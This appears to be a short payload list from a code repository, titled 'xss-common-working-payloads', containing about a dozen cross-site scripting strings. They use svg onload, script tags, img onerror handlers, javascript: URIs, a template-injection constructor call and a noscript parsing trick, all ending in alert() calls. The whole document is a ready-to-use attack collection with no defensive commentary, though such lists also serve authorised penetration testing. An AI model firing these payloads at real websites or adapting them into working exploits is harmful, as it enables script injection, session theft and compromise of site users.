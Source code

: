 # xss-common-working-payloads

"><svg/onload=alert(1)>
"><script>alert(1)</script>
<div onmouseover="alert(document.domain);">
<IMG SRC="javascript:alert('XSS');">
</style><script>a=eval;b=alert;a(b(/XSS/.source));</script>
"><img src=x onerror=alert(1)>
{{constructor.constructor(`alert(1)`)()}}
<noscript><&amp;amp;amp;amp;lt; title=" &lt;/noscript&gt; &lt;img src= x onerror =alert(document.domain)//&quot;&gt;
"><div onmouseover="alert(1);">
<BODY onload=alert(1)>
<BASE HREF="javascript:alert('XSS');//">
"></iframe><script>alert(123)</script>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
